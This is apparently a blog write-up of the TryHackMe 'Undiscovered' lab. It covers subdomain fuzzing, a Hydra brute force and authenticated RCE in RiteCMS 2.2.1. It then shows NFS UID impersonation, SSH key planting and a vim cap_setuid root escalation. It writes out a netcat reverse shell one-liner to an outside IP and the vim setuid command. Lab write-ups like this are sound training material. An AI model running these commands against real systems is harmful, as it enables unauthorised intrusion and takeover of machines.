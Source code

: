 ```yaml
---
title: Undiscovered TryHackMe Writeup
tags: [writeup,norootsquash,tryhackme,ritecms,rce,linux]
style: border
color: success
description: ""
---
```



![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Undiscovered/1.jpeg)

## Scanning
We run **nmap** on all ports, with scripts and versions.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Undiscovered/2.png)

## Enumeration
We access the web service, find a website with what looks like a *"hint"*.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Undiscovered/3(1).png)

We launch the **wfuzz** tool to list possible subdomains enabled on *vhost*.

We see that there is *only one with different number of lines*.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Undiscovered/4.png)

We access the new web resource and find **RiteCMS** version *2.2.1* deployed.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Undiscovered/5.png)

We check again **wfuzz**, we see that it has identified another subdomain.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Undiscovered/6.png)

We list another subdomain with the same CMS, unlike the previous one, in this one we have visibility to the authentication form.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Undiscovered/7.png)

We brute force the authentication form with **Hydra**, we get the password in plain text.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Undiscovered/8.png)

## Exploitation

We searched for exploits for this version of the CMS, we found several and some scripts that automates, but I preferred to do it "by hand".

[RiteCMS 2.2.1 - Authenticated Remote Code Execution
](https://www.exploit-db.com/exploits/48636)

We create a malicious file called *"m3.php"*.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Undiscovered/9.png)

Enter the credentials obtained and upload the file *m3.php*.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Undiscovered/10.png)

We access the file and check that we can execute remote code.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Undiscovered/11.png)

#### Reverse shell

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.30.149 443 >/tmp/f
```
We encode the payload and execute it from burp.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Undiscovered/12.png)

#### Remote access to the machine:

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Undiscovered/13.png)

Once inside, we launch the dirsearch tool and we see that we could mount and write in the folder of the user "*william*".

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Undiscovered/14.png)

We tried to mount it, but we do not have permission to view its contents.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Undiscovered/16.png)

But it is easy to take advantage of this vulnerability, just create a local user with the same *uid (3003)* and now you can access your folder and read the *user.txt flag*.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Undiscovered/17.png)

We checked the folder and found two interesting files "*admin.sh*" and "*script*". I try to delete the file and it is possible to replace it, thinking that maybe they can be combined or that there is some crontab running as another user, I try to add a line to get a reverse shell (but without success :().

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Undiscovered/18.png)

We check with **strings** the content of the "*script*" binary and we see that it executes a "**cat**" inside the user's home folder.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Undiscovered/19.png)

Taking advantage of the fact that we have write permissions in the nfs, we insert our public key in the "*authorized_keys*" file of the user "*william*" and we access by **SSH**.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Undiscovered/20.png)

We make some tests with the file and we see that we can indeed impersonate the user "*leonard*" to be able to read any file in his folder, so we try to read his private key and we see that we have been lucky.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Undiscovered/21.png)

We access by **SSH** and we see that we have access as "*leonard*".

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Undiscovered/22.png)

## Privilege Escalation
We read the file "*.viminfo*", we see a series of commands that already sounds us of the use of privilege escalation by means of **vim**, this already makes us suspect which is the way to the privilege escalation.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Undiscovered/23.png)

As we can't run sudo because we don't know the user's password, we see if we can access the **vim** binary through its capabilities, we see that we have "*cap_setuid+ep*", so we can abuse it and become root.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Undiscovered/24.png)

#### Command execute
```bash
/usr/bin/vim.basic  -c ':py3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
```
We run the command, become root and read the flag from root.txt

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Undiscovered/25.png)